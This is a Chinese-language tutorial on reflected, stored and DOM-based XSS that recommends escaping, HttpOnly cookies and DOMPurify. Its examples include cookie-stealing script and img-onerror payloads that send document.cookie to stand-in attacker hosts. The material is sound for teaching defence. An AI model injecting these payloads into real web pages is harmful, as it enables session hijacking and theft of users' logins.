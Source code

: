 [toc]

# XSS 攻击

## 1. 前言

XSS (Corss Site Scripting)也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对用于的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

反射型，存储型，DOM型

## 2. 反射型(url)

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心凭借的恶意链接，从而达到攻击的目的。

举个例子：

```js
// 当用户在搜索时，比如
http://www.xxx.com/music?name='青花瓷'
```

后端假设返回搜索的name，而这时候攻击者在 url 后面拼接一个恶意的script，如 alert(1);

```js
http://www.xxx.com/music?name='青花瓷'<script>alert(1)</script>
```

又假如拼接的是一个 documen.cookie呢？然后将这个cookie发到它自己的电脑上，cookie就被盗取了

```js
http://www.xxx.com/music?name='青花瓷'<script>fetch(`http://恶意者的网站.com/>cookie=${document.cooki}`)</script>
```

造成反射型 XSS 攻击的原因是服务端没有过滤scritp， 所以解决方案很简单，在服务器对用户的输入进行过滤，过滤方案很多。

一种方式是对用户输入进行 encode，比如：

```js
${encodeURIComponent(req.query.name)
```

第二种方式就是替换掉特殊字符，比如 `<` `&` 等，只要替换掉，自然就不会解析了

```js
function replaceSpecialSymbol(str) {
	return str
					.replace(/&/g, '&amp;')
          .replace(/"/g, '&quot;')
          .replace(/'/g, '&apos;')
          .replace(/</g, '&lt;')
          .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 cookie的话，最好将其设置为 HttpOnly,这样攻击者就无法利用 JS 脚本在前端获取到 Cookie了

## 3. 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端未经过转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```ba'sh
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致。

## 4. DOM型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

## 5. 防御方案

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

